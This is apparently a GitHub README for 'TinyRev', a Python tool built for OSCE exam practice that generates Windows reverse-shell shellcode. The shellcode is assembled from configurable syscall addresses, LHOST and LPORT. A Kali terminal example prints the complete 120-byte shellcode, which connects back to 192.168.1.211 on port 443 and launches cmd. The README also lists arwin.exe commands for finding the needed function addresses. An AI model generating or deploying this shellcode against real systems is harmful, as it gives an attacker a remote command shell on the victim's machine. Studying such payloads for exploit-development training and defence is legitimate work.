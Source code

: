 ## TinyRev

This is just a wrapper on absolomb's reverse shell they describe [on their blog](https://www.absolomb.com/2018-07-24-VulnServer-GTER/). This will literally just create the shellcode based on configurable syscall addresses, LHOST, and LPORT arguments, you still have to make sure your stack-alignment is correct. The shellcode should be 120 bytes long. 

**Warning**, this wrapper is very hacky and probably not very useful lol. I'm pretty sure ASLR kills this approach, but I was very bored today.

## Usage

Default usage:
`python tinyrev.py`

To get the command line syntax you need for arwin.exe to find the syscall addresses:
`python tinyrev.py -a, --arwin`

## Example

```terminal_session
root@kali:~/OSCE/ # python tinyrev.py                                    
Enter WSASocketA address (example - 7718E562): 7718E562
Enter LHOST IP (example - 192.168.1.211): 192.168.1.211
Enter LPORT (example - 443): 443
Enter connect address (example - 7718E562): 771868f5
Enter CreateProcessA address (example - 7718E562): 76a42082
Enter variable name for shellcode: revshell


revshell  = "\x31\xc0\x50\x50\x50\x31\xdb\xb3\x06\x53\x40\x50\x40\x50\xbb\x62"
revshell += "\xe5\x18\x77\x31\xc0\xff\xd3\x96\x68\xc0\xa8\x01\xd3\x66\x68\x01"
revshell += "\xbb\x31\xdb\x80\xc3\x02\x66\x53\x89\xe2\x6a\x10\x52\x56\xbb\xf5"
revshell += "\x68\x18\x77\xff\xd3\xba\x63\x63\x6d\x64\xc1\xea\x08\x52\x89\xe1"
revshell += "\x31\xd2\x83\xec\x10\x89\xe3\x56\x56\x56\x52\x52\x31\xc0\x40\xc1"
revshell += "\xc0\x08\x50\x52\x52\x52\x52\x52\x52\x52\x52\x52\x52\x31\xc0\x04"
revshell += "\x2c\x50\x89\xe0\x53\x50\x52\x52\x52\x31\xc0\x40\x50\x52\x52\x51"
revshell += "\x52\xbb\x82\x20\xa4\x76\xff\xd3"


STACK ALIGNMENT NOT INCLUDED! ;)
```

## Example 2

```terminal_session
root@kali:~/OSCE/ # python tinyrev.py --arwin                            
To Retrieve WSASocketA Address: arwin.exe ws2_32 WSASocketA
To Retrieve connect Address: arwin.exe ws2_32 connect
To Retrieve CreateProcessA Address: arwin.exe kernel32 CreateProcessA
```

## Thanks to absolomb who is a genius.


